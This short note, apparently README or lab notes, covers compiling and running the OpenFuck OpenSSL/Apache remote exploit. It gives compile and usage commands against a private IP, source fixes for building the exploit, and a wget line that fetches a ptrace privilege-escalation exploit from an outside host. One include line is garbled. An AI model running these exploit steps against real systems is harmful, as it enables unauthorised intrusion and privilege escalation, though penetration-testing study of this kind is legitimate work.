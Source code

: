 Compile command:

gcc -o OpenFuck ./openfuck.c -lcrypto

Use command:

./OpenFuck 0x73 192.168.15.222 443


Original Exploit Location:



Changes from original:

"#include < openssl/rc4 DOT h >"
"#include < openssl/md5 DOT >"

Add "const" to line 961:

const unsigned char *p, *end;

This the following wget command fails, but non-root (apache) access is still achievable

wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c


